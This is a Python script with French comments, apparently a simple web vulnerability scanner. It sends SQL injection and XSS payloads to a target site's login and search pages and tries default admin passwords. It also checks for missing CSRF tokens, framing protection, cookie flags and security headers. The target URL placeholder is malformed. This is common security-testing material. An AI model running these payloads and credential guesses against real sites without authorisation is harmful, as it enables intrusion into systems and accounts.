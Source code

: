 import requests
import random
import csv
import json
from bs4 import BeautifulSoup
from urllib.parse import urljoin
from multiprocessing.dummy import Pool as ThreadPool

# 🔥 Configuration
TARGET_URL = "https//wwwsequetuveut.com"  # Remplace par ton URL cible
USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Linux; Android 10; SM-G970F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Mobile Safari/537.36"
]

# Stocke les résultats dans un tableau pour export
results = []

# ✅ Fonction pour envoyer des requêtes avec un User-Agent aléatoire
def make_request(url, method="GET", data=None):
    headers = {"User-Agent": random.choice(USER_AGENTS)}
    try:
        if method == "GET":
            return requests.get(url, headers=headers, timeout=5)
        elif method == "POST":
            return requests.post(url, headers=headers, data=data, timeout=5)
    except requests.RequestException:
        return None

# 🔥 TEST 1: SQL Injection (SQLi)
def test_sqli():
    payloads = ["' OR '1'='1' -- ", "' UNION SELECT NULL,NULL--"]
    for payload in payloads:
        test_url = f"{TARGET_URL}/login?username=admin&password={payload}"
        response = make_request(test_url)

        if response and ("error in your SQL" in response.text.lower() or response.status_code == 500):
            results.append({"type": "SQLi", "url": test_url, "status": "VULNERABLE"})
            print(f"[❌] SQLi Exploitable sur {test_url}")
            return

    print("[✅] Pas de SQLi détecté.")

# 🔥 TEST 2: XSS (Cross-Site Scripting)
def test_xss():
    payloads = ['<script>alert(1)</script>', '" onmouseover="alert(1)"']
    for payload in payloads:
        test_url = f"{TARGET_URL}/search?q={payload}"
        response = make_request(test_url)

        if response and payload in response.text:
            results.append({"type": "XSS", "url": test_url, "status": "VULNERABLE"})
            print(f"[❌] XSS Exploitable sur {test_url}")
            return

    print("[✅] Pas de XSS détecté.")

# 🔥 TEST 3: CSRF
def test_csrf():
    response = make_request(f"{TARGET_URL}/account")
    if response and "csrf_token" not in response.text:
        results.append({"type": "CSRF", "url": TARGET_URL, "status": "VULNERABLE"})
        print(f"[❌] CSRF Exploitable !")
    else:
        print("[✅] Pas de vulnérabilité CSRF.")

# 🔥 TEST 4: Clickjacking (X-Frame-Options)
def test_clickjacking():
    response = make_request(TARGET_URL)
    if response and "X-Frame-Options" not in response.headers:
        results.append({"type": "Clickjacking", "url": TARGET_URL, "status": "VULNERABLE"})
        print(f"[❌] Clickjacking Exploitable !")
    else:
        print("[✅] Clickjacking non exploitable.")

# 🔥 TEST 5: Brute Force (sans spam)
def test_brute_force():
    credentials = [("admin", "admin"), ("admin", "password"), ("admin", "123456")]
    for username, password in credentials:
        response = make_request(f"{TARGET_URL}/login?username={username}&password={password}")
        if response and "Welcome" in response.text:
            results.append({"type": "Brute Force", "url": TARGET_URL, "status": f"Mot de passe trouvé : {password}"})
            print(f"[❌] Brute Force réussi avec {password}")
            return

    print("[✅] Aucune vulnérabilité Brute Force détectée.")

# 🔥 TEST 6: Sécurité des cookies
def test_cookie_security():
    response = make_request(TARGET_URL)
    if response:
        for cookie in response.cookies:
            if not cookie.secure or not cookie.has_nonstandard_attr('HttpOnly'):
                results.append({"type": "Cookie Security", "url": TARGET_URL, "status": "Cookies mal protégés"})
                print("[❌] Cookies mal sécurisés !")
                return

    print("[✅] Cookies sécurisés.")

# 🔥 TEST 7: En-têtes de sécurité
def test_security_headers():
    response = make_request(TARGET_URL)
    if response:
        headers = response.headers
        missing_headers = []
        if 'Strict-Transport-Security' not in headers:
            missing_headers.append("HSTS")
        if 'X-Content-Type-Options' not in headers:
            missing_headers.append("X-Content-Type-Options")
        if 'X-XSS-Protection' not in headers:
            missing_headers.append("X-XSS-Protection")

        if missing_headers:
            results.append({"type": "Security Headers", "url": TARGET_URL, "status": f"Manquants: {', '.join(missing_headers)}"})
            print(f"[❌] Headers de sécurité manquants: {', '.join(missing_headers)}")
        else:
            print("[✅] Tous les headers de sécurité sont présents.")

# 🚀 Lancer les tests en parallèle
def main():
    print("\n--- Lancement des tests de vulnérabilités ---\n")
    tests = [test_sqli, test_xss, test_csrf, test_clickjacking, test_brute_force, test_cookie_security, test_security_headers]
    
    pool = ThreadPool(5)
    pool.map(lambda func: func(), tests)
    pool.close()
    pool.join()

    # 🔄 Sauvegarde des résultats
    with open("audit_results.json", "w") as f:
        json.dump(results, f, indent=4)

    print("\n--- Tests terminés. Résultats enregistrés dans audit_results.json ---")

if __name__ == "__main__":
    main()
